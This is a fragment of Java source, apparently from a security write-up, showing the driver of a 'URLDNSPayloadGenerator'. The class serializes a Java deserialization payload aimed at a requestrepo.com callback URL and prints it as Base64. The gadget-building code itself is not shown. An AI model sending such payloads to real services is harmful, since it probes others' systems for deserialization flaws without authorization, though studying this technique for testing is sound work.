```java 
        err.println("If out-file is provided, raw binary payload is written to that file.");
        err.println("Examples:");
        err.println("  java URLDNSPayloadGenerator https://a7kvklhv.requestrepo.com/");
        err.println("  java URLDNSPayloadGenerator https://a7kvklhv.requestrepo.com/ payload.bin");
    }

    public static void main(String[] args) {
        if (args.length < 1) {
            usage(System.err);
            System.exit(64);
        }

        String target = args[0];
        String outFile = (args.length >= 2) ? args[1] : null;

        try {
            Object payload = makePayload(target);
            byte[] ser = serialize(payload);

            if (outFile != null) {
                try (FileOutputStream fos = new FileOutputStream(outFile)) {
                    fos.write(ser);
                }
                System.err.println("Raw payload written to: " + outFile);
            } else {
                // In Base64 để dễ copy/paste (stdout là text, không binary)
                String b64 = Base64.getEncoder().encodeToString(ser);
                System.out.println(b64);
            }
        } catch (Throwable t) {
            System.err.println("Error while generating payload:");
            t.printStackTrace(System.err);
            System.exit(70);
        }
    }
}
```

![image](https://hackmd.io/_uploads/SkZ9xxeJZl.png)







 



